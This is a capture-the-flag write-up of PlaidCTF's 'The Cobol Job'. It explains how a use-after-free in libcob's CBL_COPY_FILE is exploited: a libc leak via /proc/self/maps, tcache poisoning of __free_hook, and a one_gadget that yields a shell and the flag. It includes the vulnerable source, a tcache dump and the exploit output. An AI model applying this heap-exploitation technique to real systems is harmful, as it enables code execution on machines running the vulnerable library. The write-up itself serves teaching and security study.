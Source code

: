 # The Cobol Job
```
https://www.imdb.com/title/tt5295894/ Update: The "sketchy code" mentioned in a comment is not relevant to the solution.

Director: panda
Cast: kylar, nneonneo
Genre: spwnable

Episodes
1 Cold Open   130 points
    cobol.pwni.ng 3083
```

---

## Overview

This challenge allowed a user to create, open, read, write, close, and copy files inside of a container. Permissions were set in the container so that this challenge wasn't as simple as reading the flag file. The goal was to gain shell access and execute the setuid bit binary, `/freader`, to obtain the flag.

Our solution to this challenge can be broken up into three steps:
* Obtaining libc base from `/proc/self/maps`
* Copy a file to trigger use-after-free to overwrite tcache entry with `free_hook`
* Write one_gadget to `free_hook` and trigger a free to obtain a system shell

---

## Libc leak

We can leak segment mappings by reading from `/proc/self/maps`, however, we are not able to read directly from the file as it will trigger a `O_RDWR` and fail.  We can instead copy the `/proc/self/maps` file to `/dev/stdout` to read the segment mapping.

```python
do_copy("/proc/self/maps", "/dev/stdout")
```

---

## Use-After-Free

We eventually found a use-after-free vulnerability in `libcob` inside of the copy file function, `CBL_COPY_FILE()`.  On line 4691 of `fileio.c`, it retrieves an allocation, `fn1`, from `cob_str_from_fld()`. On line 4698, the pointer is passed to `free()`. Then on line 4710, it triggers the UAF by reading the source file's contents into it.

```c
fn1 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[0]);
...
free (fn1);
...
while ((i = read (fd1, fn1, sizeof(fn1))) > 0) {
...
}
```

Source reference: https://github.com/cooljeanius/open-cobol/blob/6391bcc51b26672d482e768cafc69d16a12036d5/libcob/fileio.c#L4710
<details>
  <summary>CBL_COPY_FILE() function</summary>

```c
int
CBL_COPY_FILE (unsigned char *fname1, unsigned char *fname2)
{
	char	*fn1;
	char	*fn2;
#ifdef	O_BINARY
	int	flag = O_BINARY;
#else
	int	flag = 0;
#endif
	int	ret;
	int	i;
	int	fd1, fd2;

	COB_CHK_PARMS (CBL_COPY_FILE, 2);

	if (!cob_current_module->cob_procedure_parameters[0]) {
		return -1;
	}
	if (!cob_current_module->cob_procedure_parameters[1]) {
		return -1;
	}
	fn1 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[0]);
	flag |= O_RDONLY;
	fd1 = open (fn1, flag, 0);
	if (fd1 < 0) {
		free (fn1);
		return -1;
	}
	free (fn1);
	fn2 = cob_str_from_fld (cob_current_module->cob_procedure_parameters[1]);
	flag &= ~O_RDONLY;
	flag |= O_CREAT | O_TRUNC | O_WRONLY;
	fd2 = open (fn2, flag, 0660);
	if (fd2 < 0) {
		close (fd1);
		free (fn2);
		return -1;
	}
	free (fn2);
	ret = 0;
	while ((i = read (fd1, fn1, sizeof(fn1))) > 0) {
		if (write (fd2, fn1, (size_t)i) < 0) {
			ret = -1;
			break;
		}
	}
	close (fd1);
	close (fd2);
	return ret;
}
```

</details>

---

## Modifying Tcache

The freed value above will be pushed into a tcachebin if it that tcachebin is not full.  We can control which tcachebin is used here through the size of the source's filename, as the same buffer for the source's filename is also used for the source's contents.

We created and opened a file with a filename length of 0x30 with some arbitrary file size that differs.  The length of 0x30 is used so we fall into the 0x40 size tcachebin. We then wrote the address of `free_hook` into the file such that it would overwrite both of the freed memory's forward and back pointers.  We then copy this file with a new file with a differing filename size.  This will allocate the first filename, load it into the 0x40 tcache by freeing it, and then set the `free_hook` address as the chunk's forward and back pointers.  This will manipulate the tcache 0x40 bin such that the 2nd 0x40 allocation request will return the address to `free_hook`.  The next 0x40 allocation will return the freed address.

The 0x40 tcachebin will now look something like this:
```c
0x40 [  3]: 0x559497863700 —▸ 0x7f994e3368d8 (__free_hook-16) —▸ 0x7f994e9fd340 ◂— 0x7f994e9fd340
```

We then created and opened a new file with some other filename length and a file size of 0x38 for the 0x40 bin.  The create will pop off the 1st 0x40 entry and the open will pop off the 2nd 0x40 entry, `free_hook`, into a data buffer.  We then write into this buffer by writing to the newly open file the magic one_gadget.  We then close this file to trigger a call to `free()` and in turn jumping to our one_gadget value in `free_hook`.  We ran `/freader` to obtain the flag.

```
[+] Opening connection to cobol.pwni.ng on port 3083: Done
elf_base: 0x560792499000
heap_base: 0x5607945f9000
libc_base: 0x7f3a5e452000
Run `/freader` for flag
[*] Switching to interactive mode
$ /freader
PCTF{l3arning_n3w_languag3_sh0uld_start_with_g00d_bugs_99d4ec917d097f63107e}
```

---
